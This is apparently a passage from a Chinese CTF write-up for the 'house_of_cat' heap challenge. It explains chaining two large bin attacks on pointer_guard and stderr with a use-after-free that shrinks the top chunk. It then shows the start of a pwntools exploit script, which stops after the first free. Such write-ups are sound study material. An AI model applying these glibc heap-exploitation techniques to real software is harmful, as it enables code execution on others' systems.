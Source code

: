 现在我们已经搞清楚了如何通过假的``stderr``实现任意代码执行，但我们应该如何替换``stderr``呢？前面提到，我们需要使用一次``large bin attack``修改``pointer_guard``的值，在这里，我们还需要再进行一次``large bin attack``直接修改``stderr``的值。注意到``large bin``的前32个bin所保存的chunk的大小差值为0x40，即大小在0x400~0x430的chunk保存在第一个``large bin``，而0x440~0x470则保存在第二个``large bin``中，两个相邻的bin中保存的最小chunk的大小之差为0x40。从本题可以分配的chunk大小可知，我们一共可以进行2次``large bin attack``，这两次攻击应发生在不同的bin中。

现在，我们也已经有了办法替换``stderr``，但还有最后一个问题：如何才能让``top chunk``缩小？根据本题的UAF漏洞不难联想，这一题应该是想要让我们通过UAF漏洞修改``top chunk``的大小。具体的步骤如下：

我们需要首先分配两个相邻chunk，假设大小均为0x440，并在其高地址处分配至少一个chunk暂时防止与``top chunk``合并。然后释放两个相邻chunk，释放后二者会进行合并。此时再次分配一个大小为0x430的chunk和一个0x450的chunk重新获取这两个chunk的内存空间，修改原来被释放的chunk的头部。由于我们还保存着原来chunk的指针，因此可以再一次释放这个chunk，使其与top chunk直接合并，然后继续编辑就可以成功修改top chunk的大小。

![](https://img-blog.csdnimg.cn/4bcabd534346453199fbb541af819235.png)
## Step 3: 编写exp
为了行文逻辑流畅，这里先将exp贴出来，然后再对其中细节进行深入分析：
```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

io = process('./house_of_cat')
elf = ELF('./house_of_cat')
libc = ELF('./libc.so.6')
main_arena_base = 0x219C80


def add_cat(index, size, content):
    io.sendlineafter(b'mew mew mew~~~~~~', b'CAT | r00t QWB QWXF\xFF$')  # enter the menu
    io.sendlineafter(b'plz input your cat choice:\n', b'1')
    io.sendlineafter(b'plz input your cat idx:\n', str(index).encode())
    io.sendlineafter(b'plz input your cat size:\n', str(size).encode())
    io.sendafter(b'plz input your content:\n', content)


def delete_cat(index):
    io.sendlineafter(b'mew mew mew~~~~~~', b'CAT | r00t QWB QWXF\xFF$')  # enter the menu
    io.sendlineafter(b'plz input your cat choice:\n', b'2')
    io.sendlineafter(b'plz input your cat idx:\n', str(index).encode())


def show_cat(index):
    io.sendlineafter(b'mew mew mew~~~~~~', b'CAT | r00t QWB QWXF\xFF$')  # enter the menu
    io.sendlineafter(b'plz input your cat choice:\n', b'3')
    io.sendlineafter(b'plz input your cat idx:\n', str(index).encode())


def edit_cat(index, content):
    io.sendlineafter(b'mew mew mew~~~~~~', b'CAT | r00t QWB QWXF\xFF$')  # enter the menu
    io.sendlineafter(b'plz input your cat choice:\n', b'4')
    io.sendlineafter(b'plz input your cat idx:\n', str(index).encode())
    io.sendlineafter(b'plz input your content:\n', content)


io.sendlineafter(b'mew mew mew~~~~~~', b'LOGIN | r00t QWB QWXFadmin\x00')  # admin = 1

# add_cat(0, 0x430, b'colin')
add_cat(1, 0x428, b'colin')
add_cat(2, 0x430, b'colin')
add_cat(4, 0x418, b'colin')
add_cat(5, 0x440, b'colin')

delete_cat(1)
```